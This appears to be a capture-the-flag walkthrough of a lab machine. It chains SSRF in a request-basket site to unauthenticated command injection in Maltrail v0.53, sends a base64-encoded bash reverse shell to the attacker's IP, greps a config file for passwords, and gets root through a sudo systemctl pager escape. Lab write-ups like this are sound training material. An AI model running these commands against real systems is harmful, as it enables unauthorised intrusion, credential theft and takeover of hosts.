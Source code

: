### Nmap 

```
sudo nmap -sC -sV -oN sau-nmap 10.10.11.224
```

![[Pasted image 20250425225807.png]]
- http filtered
- maybe site at 55555

Browse to site over port 55555

![[Pasted image 20250425225959.png]]

Create new basket
![[Pasted image 20250425230058.png]]

Open the basket 

![[Pasted image 20250425230121.png]]

Copy the "requests to" url and run curl 

![[Pasted image 20250425230330.png]]


Refresh webpage and can see curl request 

![[Pasted image 20250425230235.png]]

Try to insert user agent with curl -A

```
curl http://10.10.11.224:55555/2jmmeym -A "Please Subscribe"
```

![[Pasted image 20250425230418.png]]
- web page reflects user agent

Try inserting special characters with curl request for SSTI

```
curl http://10.10.11.224:55555/2jmmeym -A "{{ Please Subscribe }}'\" Thank You"
```

Response 
![[Pasted image 20250425231033.png]]
Going over to Burp to view request.

First, viewing settings on webpage and see a Forward URL.

Enter in Kali IP..

![[Pasted image 20250425231255.png]]

Then start nc listener on port 80 

```
sudo nc -lvnp 80
```

Then curl 

![[Pasted image 20250425231407.png]]

nc poppin off

![[Pasted image 20250425231425.png]]

Going back to web settings and check proxy response 

![[Pasted image 20250425231513.png]]

Reset nc listener and resend the curl 

![[Pasted image 20250425231603.png]]
- difference is curl is hanging bc it's waiting for the server to respond

If we type within nc window, it is reflected in the curl 
![[Pasted image 20250425231721.png]]
- we have CSRF

Again in the web settings, change forward url to 127.0.0.1

![[Pasted image 20250425231818.png]]

Now re-running the curl gives us a website 

![[Pasted image 20250425232228.png]]
![[Pasted image 20250425232245.png]]

Try browsing to this site

![[Pasted image 20250426113441.png]]
- Broken links
- Maltrail (v0.53) 

Google this to find an exploit

[Exploiting Maltrail v0.53 Unauthenticated RCE](https://securitylit.medium.com/exploiting-maltrail-v0-53-unauthenticated-remote-code-execution-rce-66d0666c18c5)

PoC:

```
curl 'http://hostname:8338/login' \
  --data 'username=;`id > /tmp/bbq`'
```

First, try navigating to login in the URL

![[Pasted image 20250426113923.png]]
- Nope

Navigate back to bucket and edit the Forward URL in the config settings to redirect to login page. 

![[Pasted image 20250426114023.png]]

Now, retry navigating to /login


Create reverse shell payload to send through the curl request.

```
echo -n 'bash -i >& /dev/tcp/<KALI-IP-ADDRESS>/9001 0>&1' | base64 -w0
```

![[Pasted image 20250426114516.png]]

Get rid of any special characters (+, =, etc) by adding additional spaces around where the special characters are. 

Then copy + paste base64 encoded reverse shell and plop into curl request. 

Create the curl request / exploit

```
curl http://10.10.11.224:55555/isxcqgp/ -d 'username=;`echo YmFzafsayufagdigdi | base64 -d | bash`'
```

Set-up nc listener on 9001 and catch reverse shell 

![[Pasted image 20250426114831.png]]

Spawn TTY shell 

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

```
stty raw -echo;fg
```

```
export TERM=xterm
```

Now we're the maltrail user. 

First, look for any passwords

Such as within this config file.

```
cat maltrail.conf | grep -i pass
```

![[Pasted image 20250426115223.png]]

Grep or anything that begins with a comment 

```
cat maltrail.conf | grep -v '^#' | grep .
```
![[Pasted image 20250426115300.png]]
- we got admin hash

But googling the hash (it's default) shows that is a default password of changeme

Is there a user on the box?

Try `sudo -l`
![[Pasted image 20250426115530.png]]
- we can run status trail.service 

Just run 

```
sudo /usr/bin/systemctl status trail.service
```

![[Pasted image 20250426115643.png]]
- in a pager

Just executed 
```
!/bin/sh
```

and am the root user.

![[Pasted image 20250426120243.png]]


